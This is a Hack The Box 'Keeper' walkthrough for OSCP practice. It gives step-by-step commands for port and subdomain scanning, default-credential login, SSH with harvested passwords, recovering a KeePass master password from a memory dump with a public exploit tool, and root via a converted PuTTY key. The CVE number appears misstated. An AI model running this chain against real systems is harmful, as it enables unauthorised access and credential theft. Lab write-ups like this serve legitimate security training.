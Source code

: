## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.227          # Full port scan
nmap -p 22,80 -sCV 10.10.11.227                 # Version and script scan
ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Request Tracker Access

```text
URL: http://tickets.keeper.htb/rt/
Username: root
Password: password
```

> Default credentials work. One support ticket reveals a KeePass memory dump.

---

## 🧑‍💻 [Shell as lnorgaard](SSH)

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@keeper.htb
cat user.txt
```

---

## 🧠 KeePass Dump Analysis

Files found:

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
# -> KeePassDumpFull.dmp (RAM dump)
# -> passcodes.kdbx (KeePass database)
```

---

## 📥 CVE-2022-32784 - KeePass Password Disclosure

**References:**

- [GitHub - vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

### 🪟 Windows (DotNet)

```powershell
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run Z:\path\to\KeePassDumpFull.dmp
```

### 🐧 Linux (Docker workaround)

```bash
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run /data/KeePassDumpFull.dmp
```

> Recovers: `●rødgrød med fløde`

---

## 🔓 KeePass Access

```bash
apt install kpcli
kpcli --kdb passcodes.kdbx
# Master password: rø dgrød med fløde
```

Useful credentials:

- **User:** root  
- **Notes:** PuTTY private key in legacy format

---

## 🔁 PuTTY to OpenSSH Key Conversion

```bash
apt install putty-tools
puttygen root-putty.key -O private-openssh -o keeper-root.key
chmod 600 keeper-root.key
```

---

## 🧑‍🚀 Root Access

```bash
ssh -i keeper-root.key root@keeper.htb
cat /root/root.txt
```